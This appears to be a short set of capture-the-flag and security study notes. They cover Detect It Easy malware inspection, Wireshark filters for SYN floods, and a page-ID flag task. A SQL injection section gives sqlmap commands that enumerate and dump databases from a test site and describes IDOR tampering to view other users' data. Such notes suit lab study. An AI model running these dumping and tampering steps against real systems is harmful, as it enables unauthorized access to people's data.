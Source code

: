 #### Detect it easy

* Execute Detect it easy client tool
* Upload malware executable
* Click to File info
* See entry point address

-- segment[var] of a variable 

######################################################################################################################################
DDOS Wireshark

 
**To find DOS (SYN and ACK) :*
open file with wireshark
* statistic -> IPv4 statistics -> source and destination address
* filter using: `tcp.flags.syn == 1` 
or 
`tcp.flags.syn == 1 and tcp.flags.ack == 0` 
or 
filter to highest number of request


######################################################################################################################################
SQL Injection

https://www.geeksforgeeks.org/use-sqlmap-test-website-sql-injection-vulnerability/

If we have a login account we can login or use sqli on the login page and go to profile. 
There, we can use IDOR vulnerability (manipulating =id value on url) and seeing 
info regarding another user.

In alternative we can use SQLMap and the vulnerable url after login to dump user info.
Get all databases using sqlmap
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 --dbs
Get tables from a selected database_name
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D database_name --tables 
Get all columns from a selected table_name in the database_name
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D database_name -T table_name --columns
Dump the data from the columns 
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D database_name -T table_name -C column_name --dump


######################################################################################################################################
Page ID Web app

 
Open the site
change the page ID at the url section to the specified page ID
Find the flag

######################################################################################################################################
Dirsearch Web App
